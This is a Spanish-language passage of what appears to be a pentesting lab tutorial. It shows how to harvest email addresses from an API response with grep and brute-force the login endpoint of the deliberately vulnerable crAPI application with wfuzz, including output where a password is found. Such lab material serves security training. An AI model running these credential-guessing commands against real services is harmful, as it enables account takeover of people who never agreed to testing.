 Estos resultados los podemos guardar en un archivo que se llama "response.json" y extraeremos solo los correos válidos de la siguiente forma:

[![apibrutepassword2](/images/apibrutepassword2.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/apibrutepassword2.png)

```bash
┌─[root@kali]─[/home/user/api]
└──╼ grep -oe "[a-zA-Z0-9._]\+@[a-zA-Z]\+.[a-zA-Z]\+" response.json | uniq | sort -u  > users.txt                
```

```bash
┌─[root@kali]─[/home/user/api]
└──╼ cat users.txt
a@a.com
test@test.com
vuln@brute.com
```

Realizamos fuerza bruta de la siguiente forma con ```wfuzz```:

```bash
┌─[root@kali]─[/home/user/api]
└──╼ wfuzz -d '{"email":"FUZZ","password":"FUZ2Z"}' -H 'Content-Type: application/json' -w users.txt -w wordlist.txt -u http://crapi.com:8888/identity/api/auth/login --hc 404,500,405,504,401             
```

La otra opción es realizar fuerza bruta sobre un usuario en concreto:

```bash
┌─[root@kali]─[/home/user/api]
└──╼ wfuzz -d '{"email":"vuln@brute.com","password":"FUZZ"}' -H 'Content-Type: application/json' -w wordlist.txt -u http://crapi.com:8888/identity/api/auth/login --hc 404,500,405,504,401  
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://crapi.com:8888/identity/api/auth/login
Total requests: 272

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000000228:   200        0 L      1 W        503 Ch      "P@ssword1"                                                                                                                                                                 

Total time: 0
Processed Requests: 272
```